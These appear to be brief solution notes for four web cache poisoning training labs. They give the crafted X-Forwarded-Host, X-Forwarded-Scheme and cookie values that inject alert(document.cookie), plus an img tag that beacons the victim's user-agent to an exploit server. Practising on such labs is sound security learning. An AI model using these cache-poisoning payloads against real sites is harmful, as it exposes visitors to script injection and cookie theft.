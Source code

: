 ```
Lab: Web cache poisoning with an unkeyed header

PRACTITIONER

This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way.
An unsuspecting user regularly visits the site's home page.
To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser. 
```

X-Forwarded-Host: exploit-0af500bc03f1605e8088526401d600f4.exploit-server.net/exploit

File: /exploit/resources/js/tracking.js

Body: alert(document.cookie);

---
```
Lab: Web cache poisoning with an unkeyed cookie

PRACTITIONER

This lab is vulnerable to web cache poisoning because cookies aren't included in the cache key. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes alert(1) in the visitor's browser. 
```
Run param miner, then update the header and add : 

Cookie: fehost=akzldka"-alert(1)-"test;

---
```
Lab: Web cache poisoning with multiple headers

PRACTITIONER

This lab contains a web cache poisoning vulnerability that is only exploitable when you use multiple headers to craft a malicious request. A user visits the home page roughly once a minute. To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser. 
```
Run param miner, X-Forwarded-Scheme detected

GET /resources/js/tracking.js

X-Forwarded-Host: exploit-0a7d008d040cac95809f6c3d01060031.exploit-server.net

X-Forwarded-Scheme: test

---

```
Lab: Targeted web cache poisoning using an unknown header

PRACTITIONER

This lab is vulnerable to web cache poisoning. A victim user will view any comments that you post. To solve this lab, you need to poison the cache with a response that executes alert(document.cookie) in the visitor's browser. However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs.

```
* Run param miner, x-host header detected

* User-agent of the victim triggered with : 

<img src="https://exploit-0a5a008c04375d26804d117001d9003b.exploit-server.net/exploit">

> user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36

 

---
